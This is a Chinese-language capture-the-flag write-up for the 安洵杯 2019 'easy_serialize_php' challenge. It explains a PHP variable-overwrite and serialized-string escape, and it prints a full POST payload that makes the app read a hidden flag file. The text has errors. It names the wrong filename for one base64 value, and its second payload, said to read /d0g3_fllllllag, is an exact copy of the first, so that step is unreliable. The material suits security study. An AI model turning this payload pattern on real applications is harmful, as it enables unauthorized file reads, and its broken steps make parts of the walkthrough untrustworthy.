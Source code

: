# \[安洵杯 2019]easy\_serialize\_php

## \[安洵杯 2019]easy\_serialize\_php

## 考点



## wp

给了源码，先搞明白代码的逻辑

filter 函数将 `$img` 中含有的 数组中的元素 替换为 空，正则为 `/php|flag|php5|php4|fl1g/i`

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```

GET传入`f`参数作为`function`，然后给session初始化，看到 `extract($_POST);` 说明有变量覆盖

```php
$function = @$_GET['f'];
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
extract($_POST);
if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}
```

传入`img_path`，如果`img_path`为空，就`base64_encode`字符串`guest_img.png`否则就先`base64_encode` `img_path` 再 sha1 加密

```php
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
```

然后就是对 session 进行序列化并执行 filter 函数，这里就会存在字符逃逸了

```php
$serialize_info = filter(serialize($_SESSION));
```

最后是对 `$_GET['f']` 的判断，执行不同功能

```php
if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

提示看phpinfo，在里面发现`auto_append_file d0g3_f1ag.php`，说明要看d0g3\_f1ag.php。且`session.serialize_handler`为`php`

![](<../../.gitbook/assets/image (27).png>)

现在的目的很明确，就是要读取`d0g3_f1ag.php`这个文件，利用逃逸使 session 中的 img 字段为 `ZDBnM19mMWFnLnBocA==` 即 `base64_encode(d0g3_f1ag.php)` ，然后在 `show_image` 中读取。

由于 `extract($_POST)` 的存在，可以利用变量覆盖修改 `$_SESSION["user"]`，`$_SESSION['function']` 和 `$function`，或者是在 `_SESSION` 中插入参数

先看一个正常的 session 文件经过序列化之后的结果，user 和 function 字段是可控的 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:10:"show_image";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这里就有两个位置可以逃逸，先看一下 function 这里 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"`<mark style="color:red;">`aphpphp`</mark>`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

filter 处理之后 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"`<mark style="color:red;">`a";s:3:`</mark>`"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

我们的目标如下，发现只有 function行不通，覆盖掉 img 字段后，无法控制 object 的注入，就考虑结合 user 一起 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:39:"`<mark style="color:red;">`a";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==`</mark>`";s:6:"object";s:6:"inject";}`

变成如下这样 {1} {2} 为可控输入，要注入对象的话，{2} 的内容长度一定会大于 10，所以考虑覆盖掉 `";s:8:"function";s:10:"` ，长度为 23，扩展成 3 或 4 的倍数( 根据 filter 函数)，就是 `";s:8:"function";s:10:"a`

`a:3:{s:4:"user";s:5:"`<mark style="color:red;">`{1}`</mark>`";s:8:"function";s:10:"`<mark style="color:green;">`{2}`</mark>`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这就变成这个样子 `a:3:{s:4:"user";s:24:"`<mark style="color:red;">`flagflagflagflagflagflag`</mark>`";s:8:"function";s:10:"a{2}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

经过 filter 函数处理

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark>`{2}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

然后就是 {2} 的输入内容，要让 img 字段为 `ZDBnM19mMWFnLnBocA==` 即 `base64_encode(f1ag_a8f7b5e6.php)` ，还要闭合前面的 `"`，那么 {2} 就是 `";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这样还存在问题，黄色部分的`";` 如何处理，可以结合 php 反序列化在`}`后的数据将直接被丢弃这个特点，直接构造一个结束符。{2} 为 `";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这还有一个问题，这个反序列化之后的数组应该有 3 个元素，这样构造只剩下 2 个，这就需要再加一个元素，随便加即可

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

payload

```
POST
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}&function=show_image
```

![](<../../.gitbook/assets/image (9).png>)

再读取`/d0g3_fllllllag`，payload

```
POST
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}&function=show_image
```

## 小结

1. extract对session进行变量覆盖的条件是`session_start`在`extract`之前，参考[bestphp's revenge](bestphps-revenge.md)。
